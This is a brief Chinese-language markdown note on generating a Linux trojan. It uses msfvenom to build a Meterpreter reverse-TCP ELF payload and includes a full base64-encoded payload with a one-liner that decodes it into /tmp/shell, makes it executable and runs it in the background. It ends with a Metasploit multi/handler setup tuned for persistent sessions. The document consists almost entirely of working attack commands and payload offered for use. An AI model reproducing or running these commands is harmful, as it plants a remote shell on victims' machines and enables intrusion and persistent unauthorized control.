


生成linux木马

```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.207.224 lport=289 -f elf -o 289.elf
```




```
base64 -w0 port.elf
```




```
echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAAMf9qCViZthBIidZNMclqIkFaagdaDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgABIcCoz+BRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g== | base64 -d >> /tmp/shell;chmod 555 /tmp/shell;nohup /tmp/shell
```


```
msfconsole -q 
user exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp 
set LPORT port
set LHOST lhost
set ExitOnSession false
run -zj
```


```
其中set exitonsession false
run -zj 
保证了我们可以持久化接受sessions会话
```

